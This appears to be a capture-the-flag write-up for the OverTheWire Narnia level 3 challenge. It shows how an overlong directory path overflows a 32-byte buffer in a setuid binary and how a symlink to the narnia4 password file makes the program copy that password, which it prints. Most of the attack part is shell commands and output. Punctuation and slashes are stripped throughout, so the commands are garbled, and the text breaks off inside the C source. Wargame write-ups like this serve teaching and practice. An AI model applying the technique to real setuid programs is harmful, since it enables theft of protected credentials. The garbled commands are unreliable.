 Note that a directory of 26 S s was created because  tmp  is 5 characters and the   at the end of the S directory is one character  6   26   32 which is the size allocated for the buffer 

Executing the full path of the  test  file within this directory proves to successfully overwrite the null device variable 

   highlight bash   
narnia3 narnia  tmp SSSSSSSSSSSSSSSSSSSSSSSSS   narnia narnia3  tmp SSSSSSSSSSSSSSSSSSSSSSSSSS test  
copied contents of  tmp SSSSSSSSSSSSSSSSSSSSSSSSS test to a safer place     test 
   endhighlight   

It follows that if we create a  tmp directory within the current working directory and create a file that is symbolically linked to narnia4 s password file  we can copy his credentials to wherever we specify 

   highlight bash   
narnia3 narnia  tmp SSSSSSSSSSSSSSSSSSSSSSSSSS tmp   narnia narnia3  tmp SSSSSSSSSSSSSSSSSSSSSSSSSS tmp credentials  
error opening tmp credentials
   endhighlight   

This error was included to further help in understanding how the binary works

The error is missing a   at the beginning of the tmp directory  This is because  tmp  is four characters  S is 26 characters  and the trailing   is one character  which completely fills the 32 bytes allocated for the buffer   Therefore  the string after the trailing   of the S directory is what overwrites the variable for the null device  Creating a directory with 27 S s fixes this problem  note that the choice of S s was arbitrary  and any sequence of 27 bytes within the  tmp directory would have worked  

   highlight bash   
narnia3 narnia  tmp  mkdir   python  c  print  S  27    
narnia3 narnia  tmp  cd   python  c  print  S  27    
narnia3 narnia  tmp SSSSSSSSSSSSSSSSSSSSSSSSSSS  mkdir tmp  
narnia3 narnia  tmp SSSSSSSSSSSSSSSSSSSSSSSSSSS  cd tmp  
narnia3 narnia  tmp SSSSSSSSSSSSSSSSSSSSSSSSSSS tmp  ln  s  etc narnia pass narnia4 credentials  
narnia3 narnia  tmp SSSSSSSSSSSSSSSSSSSSSSSSSSS tmp   narnia narnia3  tmp SSSSSSSSSSSSSSSSSSSSSSSSSSS tmp credentials  
error opening  tmp credentials  
narnia3 narnia  tmp SSSSSSSSSSSSSSSSSSSSSSSSSSS tmp  touch  tmp credentials  
narnia3 narnia  tmp SSSSSSSSSSSSSSSSSSSSSSSSSSS tmp  chmod 777  tmp credentials  
narnia3 narnia  tmp SSSSSSSSSSSSSSSSSSSSSSSSSSS tmp   narnia narnia3  tmp SSSSSSSSSSSSSSSSSSSSSSSSSSS tmp credentials  
copied contents of  tmp SSSSSSSSSSSSSSSSSSSSSSSSSSS tmp credentials to a safer place      tmp credentials   
narnia3 narnia  tmp SSSSSSSSSSSSSSSSSSSSSSSSSSS tmp  cat  tmp credentials  
thaenohtai
   endhighlight   

The password for the narnia4 user was successfully copied to the  tmp directory under the filename of credentials 

    Source Code

   highlight c   
 include  stdio h   
 include  sys types h   
 include  sys stat h   
 include  fcntl h   
 include  unistd h   
 include  stdlib h                                                                                                                                                     
 include  string h                                                                                                                                                                                                                                                                                                                                      int main int argc  char   argv    
  
